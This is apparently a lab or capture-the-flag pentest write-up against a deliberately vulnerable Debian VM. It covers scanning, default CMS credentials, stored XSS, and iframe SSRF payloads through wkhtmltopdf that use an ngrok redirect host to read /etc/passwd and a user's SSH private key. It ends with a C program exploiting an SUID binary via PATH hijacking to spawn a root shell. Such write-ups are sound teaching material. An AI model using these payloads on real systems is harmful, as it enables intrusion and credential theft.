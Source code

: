 # ITSTAR - Pentesting Methodology

As prepared, a vulnerable Debian (amd64) machine was built, deployed and was running in VMware.

![](https://i.ibb.co/kgVBc5L/image.png)



## Host discovery

![](<https://i.ibb.co/5rZ6jBK/image.png>)

The machine is configured to use **Bridge** so i will scan the subnet of my **eth0** .



![](<https://i.ibb.co/WcVNCV5/image.png>)

<center><b>sudo netdiscover -r 192.168.1.0/24</b></center>

The IP `192.168.1.113` definitely belongs to the machine so the next step is to gather information about the server, starting with port scanning.



## Information Gathering

![](<https://i.imgur.com/uMmXHkK.png>)

<center><b>nmap -sC -sV -oN machine.nmap -p- 192.168.1.113</b></center>

Scanning all TCP port resulted in port 22 (SSH) and 80 (Webserver) running. I will enumerate the webserver for more information about the server (which CMS is running, leftover files (backup) ),...



![](<https://i.imgur.com/G3fDB7r.png>)

Directory listing was enabled.



![](<https://i.imgur.com/jzL28G4.png>)

The website wasn't finished, so just had a **Login** function without **Register** function. I tried to fuzzing the login but all the tries were failed.



![](<https://i.imgur.com/s1scxNJ.png>)

The webserver generated itself a token for each time i login, so it's definitely not brute-force-able. And SQLi technique were also failed.

But the website left a detail which led to it was a custom open-source CMS (https://github.com/ionutvmi/master-login-system).



![](<https://i.imgur.com/JyxIwQK.png>)



After looking at the source code, i spotted in `install.php`, the author left pre-defined admin credential.

```php
$sqls[] = "
  INSERT INTO `".$prefix."users` (`userid`, `username`, `display_name`, `password`, `email`, `key`, `validated`, `groupid`, `lastactive`, `showavt`, `banned`, `regtime`) VALUES
(1, 'admin', 'Admin', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220', 'admin@gmail.com', '', '1', 4, ".time().", 1, 0, ".time().");";
  foreach($sqls as $sql)
    if(!isset($page->error) && (!$db->query("?p",$sql)))
      $page->error = "There was a problem while executing <code>$sql</code>";
  if(!isset($page->error)) {
    $page->success = "The installation was successful ! Thank you for using master loging system and we hope you enjo it ! Have fun ! <br/><br/>
    <a class='btn btn-success' href='./index.php'>Start exploring</a>
    <br/><br/>
    <h3>USER: admin <br/> PASSWORD: 1234</h3>";
```

Which the default credential was `admin` - `1234`.

After logging in, there were 2 another function:

* Edit profile

* Export profile to PDF format




![](<https://i.imgur.com/VFJByH7.png>)



> Edit profile:

![](<https://i.imgur.com/Ad6I2YT.png>)

Information gathered:

* Username: limits characters `(Username too short or too long !)`
* Display name: doesn't limit the length of characters
* Emails: validates for email type

Due to no validation on `Display name`, i tested HTML Injection + XSS and they worked.

###### HTML Injection:



![](<https://i.imgur.com/heAf0p4.png>)



###### Stored XSS:



![](<https://i.imgur.com/bkR6uGn.png>)



> Export profile:

![](<https://i.imgur.com/s7oBOtl.png>)



The server returned a PDF object in response then the browser would read that object as a PDF file. It parsed everything in the HTML profile but i had to check how the server did it.

![](<https://i.imgur.com/iUOCeDy.png>)



The server used `wkhtmltopdf` as backend to convert HTML content into PDF object. With known software used + version i could search for the exploit.



![](<https://i.imgur.com/uy9J6fS.png>)



## Exploitation

Knowing that SSRF bug can give me local file access so i would try to read `/etc/passwd` using XSS with `iframe` + redirect the connection to the `/etc/passwd` file. But in order to control the inbound connection, i had to redirect the connection to whatever link or file i wanted. So i tried to redirect the connection to a specific website and export into the PDF so that the `iframe` will be included in.

Payload:

```html
<iframe width='800' height='2000' src='http://icanhazip.com'></iframe>
```



![](<https://i.imgur.com/2fLNwFN.png>)



It was successfully redirected. So now i need to read the `/etc/passwd` file. I had to redirect to the file using `file://` URL scheme.

> Building server:

![](<https://i.imgur.com/cRP3y3B.png>)



Payload:

```html
<iframe width='800' height='2000' src='http://469c2c15.ngrok.io/?f=/etc/passwd'></iframe>
```



Response:

![](<https://i.imgur.com/88x5WsL.png>)



So i was able to read the file, and i looked for "live" users to find their SSH private key (port 22 is open). Starting with user `gemini1`. I looked for the path `/home/gemini1/.ssh/ida_rsa`.



Payload:

```html
<iframe width='800' height='2000' src='http://469c2c15.ngrok.io/?f=/home/gemini1/.ssh/id_rsa'></iframe>
```



Response:

![](<https://i.imgur.com/WrGnL3R.png>)



## Privilege Escalation:

![](<https://i.imgur.com/mCmcvOi.png>)



Successfully logged in, i enumerated around to check for misconfigured files or leftover datas to escalate to `root` to fully control the server.

I was looking for some binary files which has SUID, SGID or Sticky bit permission in order to get root.



![](<https://i.imgur.com/UxuRSMN.png>)



There was a newest modified binary file which also had 4000 (SUID) permission.

> **SUID** (Set User ID) is a kind of permission given to a file. It will appear on the execution bit of the file owner's permission. When the file has such permission, the caller will temporarily obtain the permission of the owner of the file.

So i dumped the binary file to my local machine to do Reverse Engineering



![](<https://i.imgur.com/GIA2QQP.png>)



Started analyzing with Ghidra to get pseudo code.

![](<https://i.imgur.com/V69N2FG.png>)



As the flow the C code, the binary file called 4 processes, first 3 processes were called with specific path but not the last. I could spoof `date` binary file to spawn a shell as `root`. By doing this, i appended the home directory (`/home/gemini1/`) to the current $PATH as first element containing a compiled `date` file which calls `/bin/bash` as `root`.



> date.c

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```



![](<https://i.imgur.com/t2y620y.png>)



> Appending path



![](<https://i.imgur.com/lFF1hSA.png>)



> Escalated as root



![](<https://i.imgur.com/qkXL3QG.png>)
